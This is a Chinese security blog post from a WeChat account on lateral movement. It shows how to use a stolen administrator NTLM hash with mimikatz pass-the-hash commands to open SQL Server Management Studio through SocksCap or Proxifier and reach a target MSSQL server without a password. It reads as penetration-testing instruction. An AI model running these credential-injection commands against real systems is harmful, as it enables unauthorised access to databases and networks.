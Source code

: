 #  横向渗透 | 无密码连接SQL Server的姿势

zksmile  [ sechub安全 ](javascript:void\(0\);)

**sechub安全** ![]()

微信号 secevery0x01

功能介绍
隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

____

___发表于_

收录于合集 #内网渗透 10个

**     点击蓝字 关注我们**

![](https://gitee.com/fuli009/images/raw/master/public/20230619141946.png)

 **免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

# 一、前言

原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

# 二、SocksCap

操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

## 1.打开mimikatz，hash注入sockscap

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230619141948.png)

## 2.在sockscap中运行ssms

![](https://gitee.com/fuli009/images/raw/master/public/20230619141949.png)

## 3.输入目标服务器名称，连接即可

![](https://gitee.com/fuli009/images/raw/master/public/20230619141950.png)

![]()

## 4.通过进程分析，发现SSMS的父进程是sockscap

    
    
    wmic process where Name="SSMS.exe" get ParentProcessId  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230619141951.png)

# 三、proxifier

操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

## 1.启动proxifier

## 2.打开mimikatz，hash注入ssms

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230619141952.png)

## 3.连接

![](https://gitee.com/fuli009/images/raw/master/public/20230619141953.png)

![]()

  

欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

 **#**

  

 **企业简介    **

  

 **赛克艾威 - 专注政企安全服务**

 **  
**

       北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。

  

安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训

![](https://gitee.com/fuli009/images/raw/master/public/20230619141946.png)

 **联系方式**

电话｜010-86460828

官网｜https://sechub.com.cn

![](https://gitee.com/fuli009/images/raw/master/public/20230619141955.png)

 **关注我们**

![](https://gitee.com/fuli009/images/raw/master/public/20230619141956.png)![](https://gitee.com/fuli009/images/raw/master/public/20230619141956.png)![](https://gitee.com/fuli009/images/raw/master/public/20230619141957.png)

 **公众号：** sechub安全

 **哔哩号：** SecHub官方账号

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

